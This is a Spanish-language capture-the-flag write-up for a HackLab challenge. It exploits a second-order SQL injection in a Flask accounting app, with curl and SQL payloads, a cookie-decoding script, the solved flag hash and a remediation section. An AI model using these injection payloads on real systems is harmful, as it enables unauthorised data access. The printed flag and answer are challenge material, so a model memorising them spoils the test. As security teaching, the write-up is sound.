



# Cuentas Claras

**Plataforma:** HackLab (SoftwareSeguro)

**Edición:** HackLab 2026

**Categoría:** SQL Injection

**Puntaje:** 30

**Herramientas:** curl, Python

## Enunciado

> **Cuentas Claras** es una herramienta interna de contaduría.
>
> Hay **20 categorías**, pero el selector solo te deja elegir **17**: hay **3 categorías
> restringidas** a las que **no se puede dar de alta proveedores** (ni aparecen en el selector
> ni el servidor las acepta). Esas 3 categorías igual tienen movimientos cargados.
>
> **Tu objetivo:** averiguar **cuántos movimientos hay en las 3 categorías restringidas**,
> sumarlos, y la flag es el **hash MD5 de esa suma**.



## Reconocimiento

App Flask (Werkzeug) detrás de nginx, server-rendered y **sin JavaScript** en el cliente. La UI
tiene un formulario de alta de proveedores y una tabla con los proveedores sembrados.



Existen exactamente **tres endpoints**:

- `GET /` — tabla de proveedores + formulario de alta.
- `POST /alta` — crea un proveedor. Campos del form: `nombre`, `categoria`. Redirige a `/`.
- `POST /movimientos/<int:id>` — "cuenta los movimientos" de un proveedor. Redirige a `/`.

El **seed** inserta siempre 3 proveedores, con un timestamp de alta idéntico y constante entre
instancias (`2026-10-09 18:47:50.202459`):

| id | nombre              | categoría  | movimientos |
|----|---------------------|------------|-------------|
| 1  | Libreria Central    | Papeleria  | 2576        |
| 2  | Transporte Sur      | Transporte | 3104        |
| 3  | Catering del Valle  | Catering   | 1897        |

Las 3 categorías del seed (Papeleria, Transporte, Catering) **están** entre las 17 permitidas.
El selector lista estas 17:

```
Capacitacion, Catering, Consultoria, Insumos, Limpieza, Logistica, Mantenimiento,
Marketing, Mobiliario, Papeleria, Seguridad, Servicios, Software, Tecnologia,
Telefonia, Transporte, Viaticos
```

### El resultado viaja en la cookie de sesión (no en el body)

`POST /movimientos/<id>` siempre responde **302** con body "Redirecting…". El mensaje real está
en el **flash de Flask**, dentro del header `Set-Cookie: session=...` (base64url, firmado pero
**no cifrado**; cuando el payload es grande Flask lo comprime con zlib y antepone un `.`).
Decodificándolo:

```python
import base64, zlib

def flash(cookie):
    tok = cookie.split('.')
    raw, comp = tok[0], False
    if raw == '':            # empieza con '.', payload comprimido con zlib
        raw, comp = tok[1], True
    s = raw.replace('-', '+').replace('_', '/')
    s += '=' * ((4 - len(s) % 4) % 4)
    d = base64.b64decode(s)
    return zlib.decompress(d).decode() if comp else d.decode()
```

El flash tiene tres formas:

```
"ok"    -> "Proveedor #N: X movimientos registrados."   (el proveedor N existe)
"ok"    -> "Proveedor #N: 0 movimientos registrados."   (existe, sin movimientos)
"error" -> "No se pudo contar los movimientos para ese proveedor."  (N no existe)
```

## El vector: ¿por qué cuenta lo que cuenta?

La trampa del desafío es asumir que `/movimientos/<id>` cuenta **por `proveedor_id`**. No es así.
Dos observaciones lo desmontan:

1. Un proveedor **recién creado** en una categoría que ya tiene movimientos (p. ej. Transporte)
   cuenta **0**, no 3104. El conteo no sigue a la categoría.
2. Crear un proveedor con el **nombre exacto de uno del seed** hereda sus movimientos:

```bash
# alta de un proveedor llamado igual que el seed id=1, en una categoría permitida
curl -s -X POST --data-urlencode "nombre=Libreria Central" --data "categoria=Papeleria" "$URL/alta"
# contar ese proveedor nuevo -> devuelve 2576 (los del seed id=1)
```

El conteo va **por el `nombre` del proveedor**, y ese nombre se **concatena sin parametrizar** en
la consulta de movimientos. Es una **SQL injection de segundo orden**: el `nombre` se guarda con
un INSERT parametrizado (por eso se almacena literal y parece seguro), pero `/movimientos` lo
reinyecta en una query del tipo:

```sql
SELECT COUNT(*) FROM movimientos WHERE proveedor = '<nombre>'
```

## Explotación

Se crea un proveedor cuyo **nombre es el payload** (siempre en una categoría permitida como
`Papeleria`, para pasar la whitelist del `/alta`), y luego se cuenta ese proveedor.



**Probar la inyección** — `' OR 1=1 --` cuenta *todos* los movimientos de la tabla:

```sql
' OR 1=1 --
```

Devuelve **51340** (total de movimientos). La consulta efectiva queda
`... WHERE proveedor = '' OR 1=1 --'`.

**Descubrir el esquema** — la columna de categoría se llama `categoria` (las otras variantes dan
el error de "no se pudo contar", porque la columna no existe y la query falla):

```sql
' OR categoria IS NOT NULL --
```

**Aislar las 3 restringidas** — las restringidas son, por definición, las categorías que **no**
están entre las 17 permitidas. Se filtra con `NOT IN`:

```sql
' OR categoria NOT IN ('Capacitacion','Catering','Consultoria','Insumos','Limpieza','Logistica','Mantenimiento','Marketing','Mobiliario','Papeleria','Seguridad','Servicios','Software','Tecnologia','Telefonia','Transporte','Viaticos') --
```

Resultados (dos métodos independientes que coinciden):

| Consulta | Movimientos |
|---|---|
| `' OR 1=1 --` (total) | 51340 |
| `' OR categoria IN (...17 permitidas...) --` | 41577 |
| `' OR categoria NOT IN (...17 permitidas...) --` | **9763** |

Verificación: `51340 − 41577 = 9763` ✓ coincide con el `NOT IN`.

## Flag

La suma de movimientos de las 3 categorías restringidas es **9763**. La flag es su MD5:

```python
import hashlib
hashlib.md5(b"9763").hexdigest()
```

```
0ffd15f002b98f6bd62346b947b8d15a
```

## Solver

El script [`solve.py`](./solve.py) automatiza el camino completo: crea un proveedor por cada
payload (en categoría `Papeleria`), lee su `id` de la tabla, cuenta sus movimientos leyendo el
flash de la cookie, y calcula el MD5 de la suma restringida. Ajustar la constante `BASE` a la URL
de la instancia vigente.

## 🛡️ Remediación (Developer Perspective)

- **Parametrizar siempre.** La causa raíz es construir la query de conteo concatenando el
  `nombre`. Debe usarse una consulta parametrizada (`WHERE proveedor = ?`) que trate el nombre
  como dato, no como SQL. El INSERT del alta ya lo hacía bien; el bug está en la lectura.
- **Ojo con la SQLi de segundo orden.** Que la entrada se guarde de forma segura no basta: cada
  vez que ese dato se reutiliza en otra query hay que volver a tratarlo como no confiable. Aquí
  el `nombre` viajaba limpio al INSERT pero sucio al `SELECT COUNT`.
- **No derivar el conteo del nombre.** Modelar los movimientos con una clave estable
  (`proveedor_id`), no por un string de display editable por el usuario.
- **Validar en el lugar correcto.** La whitelist de categorías del `/alta` era sólida, pero daba
  una falsa sensación de seguridad: el atacante nunca necesitó crear un proveedor en una categoría
  restringida; le alcanzó con inyectar en el nombre y filtrar por `NOT IN`.
